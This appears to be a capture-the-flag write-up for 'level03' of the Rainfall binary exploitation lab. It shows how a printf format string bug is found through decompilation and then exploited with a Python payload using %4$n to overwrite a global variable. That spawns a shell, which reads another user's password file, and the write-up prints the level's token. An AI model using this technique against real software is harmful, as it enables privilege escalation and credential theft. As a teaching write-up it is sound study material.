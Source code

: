 # level03

1. Decompilation with Ghidra

    - Decompile the `level3` binary with Ghidra
    - The binary contains a function `v()` that:
      - Calls `fgets()` to read 512 bytes of user input (safe)
      - Calls `printf()` with user input as format string (vulnerable!)
      - Checks if global variable `m` equals `0x40` (64)
      - If true, calls `system("/bin/sh")`

2. Analysis of the vulnerability

    The decompiled code is:

    ```c
    void v(void) {
      char local_20c [520];
      
      fgets(local_20c, 0x200, stdin);   // Reads 512 bytes max (safe)
      printf(local_20c);                // VULNERABLE! No format string!
      if (m == 0x40) {                  // If global variable m == 64
        fwrite("Wait what?!\n", 1, 0xc, stdout);
        system("/bin/sh");              // Shell!
      }
      return;
    }
    ```

    The vulnerability:
    - **Format string attack** via `printf(local_20c)` without format specifier
    - We need to modify the global variable `m` to be equal to `0x40` (64)
    - Using `%n` format specifier, we can write to arbitrary memory addresses

3. Finding the address of global variable m

    Using objdump to find the symbol address:

    ```bash
    objdump -t ./level3 | grep " m"
    # Output: 0804988c g     O .bss   00000004              m
    ```

    The address of `m` is: **0x0804988c**

4. Finding the format string offset

    Test to find where our input appears on the stack:

    ```bash
    echo "AAAA %x %x %x %x %x %x %x %x" | ./level3
    # Output: AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
    ```

    We see `41414141` (AAAA in hex) at the **4th position**.

5. Exploit construction

    Strategy:
    - Place the address of `m` at the beginning of our input (4 bytes)
    - Print 60 more characters to reach a total of 64 bytes printed
    - Use `%4$n` to write the number of bytes printed (64) into `m`

    Format string breakdown:

    ```
    [Address of m][%60x][%4$n]
    |            |      |
    |            |      +-> Write byte count to 4th argument (address of m)
    |            +-> Print 60 characters (padding)
    +-> 0x0804988c (4 bytes)
    ```

    Total bytes printed: 4 + 60 = 64 = 0x40

6. Exploitation

    Create the exploit on the Rainfall machine:

    ```bash
    cat > /tmp/exploit.py << 'EOF'
    #!/usr/bin/env python
    import sys
    
    # Adresse de la variable globale m: 0x0804988c
    m_addr = "\x8c\x98\x04\x08"
    
    # On doit ecrire 64 (0x40) dans m
    # 4 bytes (adresse) + 60 bytes imprimes = 64 total
    padding = "%60x"
    
    # Construction du payload
    payload = m_addr      # Adresse de m (position 4 sur la stack)
    payload += padding    # Imprime 60 caracteres supplementaires
    payload += "%4$n"     # Ecrit 64 dans l'adresse au 4eme argument
    
    sys.stdout.write(payload)
    EOF
    ```

    Run the exploit:

    ```bash
    (python /tmp/exploit.py; cat) | ./level3
    ```

    This spawns a shell with level4 privileges:

    ```bash
    cat /home/user/level4/.pass
    ```

7. Token discovered

    The token is: `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`
